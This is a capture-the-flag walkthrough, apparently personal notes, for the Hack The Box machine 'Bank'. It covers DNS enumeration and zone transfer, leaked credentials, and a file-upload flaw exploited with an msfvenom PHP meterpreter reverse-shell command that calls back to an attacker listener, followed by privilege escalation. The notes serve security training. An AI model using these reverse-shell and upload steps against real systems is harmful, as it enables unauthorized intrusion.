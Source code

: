 #### Enumeration
- Open Ports port `port 22, 53,80`
- When DNS port is open on TCP, high chances of `zone transfer`
- No information gathered from the DNS Server
- Virtual host is guessed `bank.htb` and added to the `/etc/hosts`
- `balance-transfer` directory enumerated
- One file varies in size and reveals valid creds due to `failed encryption`
- The creds are used to login to the `web-app`
- `File Upload` in support page
- Comment found in page source
```html
I added the file extension .htb to execute as php for debugging purposes only
```

#### Shell Obtain
##### Via Metasploit
```bash
msfvenom -p php/meterpreter/reverse_tcp lhost=<your-ip> lport=<listening port> -f raw > shell.htb
```
- Upload the shell.htb in the support page and navigate to /uploads dir to get executed

##### Unintended Way
- In `burp` the support.php contents can be viewed without authentication as it mis-handles redirections


#### Priv Esc
- On running the `emergency` binary, the user is escalated to root group and root shell is obtained



#### Commands:

**DNS port Poking**
```bash
nslookup
> SERVER 10.10.10.29
# ask for who is localhost 127.0.0.1 Possiblities might expose a new host
> 127.0.0.1
# reverse lookup
> 10.10.10.29
# guessing the host name and it responds
> bank.htb
```

**DNS Recon**
```bash
# gathers all the host from 127.0.0.0 - 127.0.0.255 in the name server 10.10.10.29
dnsrecon -r 127.0.0.0/24 -n 10.10.10.29
# some host file may be included in 127.0.1.0 - 127.0.1.255
# If the 24 is replaced wirth `127.0.0.0/16` range will be from 127.0.0.0 - 127.0.255.255, if 8, 3 octacs will be checked
dnsrecon -r 127.0.1.0/24 -n 10.10.10.29
# On the 10 subnet
dnsrecon -r 10.10.10.0/24 -n 10.10.10.29
```

**DNS Zone Transfer**

```bash
# zone transfer without specifing a domain
dig axfr @10.10.10.29
# zone transfer on specifying the domain
dig axfr bank.htb @10.10.10.29
```
